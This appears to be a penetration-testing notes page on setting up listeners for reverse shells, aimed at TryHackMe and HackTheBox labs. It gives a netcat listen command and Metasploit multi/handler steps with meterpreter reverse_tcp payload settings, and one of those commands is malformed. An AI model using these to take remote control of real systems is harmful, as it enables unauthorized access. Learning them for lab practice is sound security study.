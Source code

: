 title: Listeners

# Netcat

Netcat / nc is great little utility. 

```
nc -lvnp {PORT}
```
* -l = Listen
* -v = Verbose Output 
* -n = Do not do any DNS look resolution 
* -p = Port Number ( Under 1024 will require root/sudo )

# Metasploit

Metasploit is a great framework & `meterpreter` is great shell with allot of functionality. 

To use Metasploit to listen for incoming shells we first need to run Metasploit

```
$ msfconsole
```

Once running you will need to choose `multi/handler` as the exploit to use

```
use exploit/multi/handler
```

By default the handler will use `generic/shell_reverse_tcp` as the payload, for `meterpreter` you will need to specify the correct payload depending on OS and `meterpreter` architecture deployed to the target.

* linux 32bit
```
set payload linux/x86/meterpreter/reverse_tcp
```
* linux 64bit
```
set payload linux/x64/meterpreter/reverse_tcp
```
* windows 32bit
```
* set payload windows/meterpreter/reverse_tcp
```
* windows 64bit
```
set windows/x64/meterpreter/reverse_tcp
```

**Required Options**

By default the handler will listen on port `4444` and your LAN IP Address. Normally leaving the port at `4444` is OK, if you do need to change it then you will need to use

```
set LPORT {PORT}
```

When using against targets on the local network the default `LHOST` value should be ok, however if using a VPN to connect to a platform like ***TryHackMe*** or ***HackTheBox*** then we will usually need to listen on the IP of the VPN connection. 

* To get your VPN address use the `ip` command with the device of your VPN ( usualy tun0 )

```
ip address show tun0
```

This will output the details of you VPN connection, you need to look for the `inet ` line which will show the IPv4 address of the device. 

```
4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 100
    link/none 
    inet 10.x.x.x/16 brd 10.9.255.255 scope global tun0
       valid_lft forever preferred_lft forever
```

We can then set the `LHOST` option using 

```
set LHOST {IP-ADDRESS}
```

As a quick hack you can use the below command to output the `set` command with the correct VPN address

```
ip address show tun0 | grep -w inet | awk '{printf "set LHOST " $2}' | cut -f1 -d'/'
```
